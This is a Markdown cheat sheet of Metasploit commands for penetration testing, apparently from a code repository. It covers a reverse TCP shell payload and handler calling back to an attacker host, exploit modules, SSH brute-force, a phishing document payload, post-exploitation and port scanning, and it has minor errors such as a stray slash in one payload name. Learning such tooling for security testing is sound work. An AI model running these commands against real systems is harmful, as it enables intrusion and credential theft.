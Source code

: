 #### Metasploit

Metasploit is an open-source penetration testing framework that provides a platform for developing, testing, and executing exploit code against a remote target


# Set up a reverse TCP shell on a Windows MS-SQL server

# In MSFVenom, create a payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip} -f exe -o payload.exe

# In MSF6, use Metasploit
use exploit/multi/handler
set payload /windows/meterpreter/reverse_tcp
setg LHOST {ip}
run

# Exploiting Known Vulnerabilities
Metasploit can be used to exploit known vulnerabilities in target systems. For example, if a target system is known to be vulnerable to a specific exploit, security professionals can use the corresponding Metasploit module to assess and demonstrate the impact.

msfconsole
use exploit/<exploit_module>
set RHOSTS <target_ip>
exploit

# Password Attacks
Metasploit includes modules for password attacks, such as brute-force attacks and credential spraying. These modules can be used to test the strength of passwords on target systems.

msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target_ip>
set USER_FILE <user_list>
set PASS_FILE <password_list>
run

# Phishing Campaigns
Metasploit can be used to simulate phishing attacks by creating malicious payloads embedded in emails or websites. This helps organizations assess their susceptibility to social engineering.

msfconsole
use exploit/windows/fileformat/office_word_hta
set PAYLOAD <payload_type>
set LHOST <attacker_ip>
exploit

# Post-Exploitation Activities
After successfully compromising a target, Metasploit's Meterpreter payload can be used for various post-exploitation activities, including file manipulation, privilege escalation, and lateral movement.

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker_ip>
exploit

# Network Scanning and Enumeration
Metasploit includes modules for network scanning and enumeration, allowing security professionals to gather information about target networks and systems.

msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_ip_range>
run

# Payload Generation
Metasploit can generate custom payloads for various platforms and scenarios. This is useful for creating specific executable files or scripts tailored to the target environment.

msfvenom -p <payload_type> LHOST=<attacker_ip> LPORT=<attacker_port> -f <output_format> > output_file

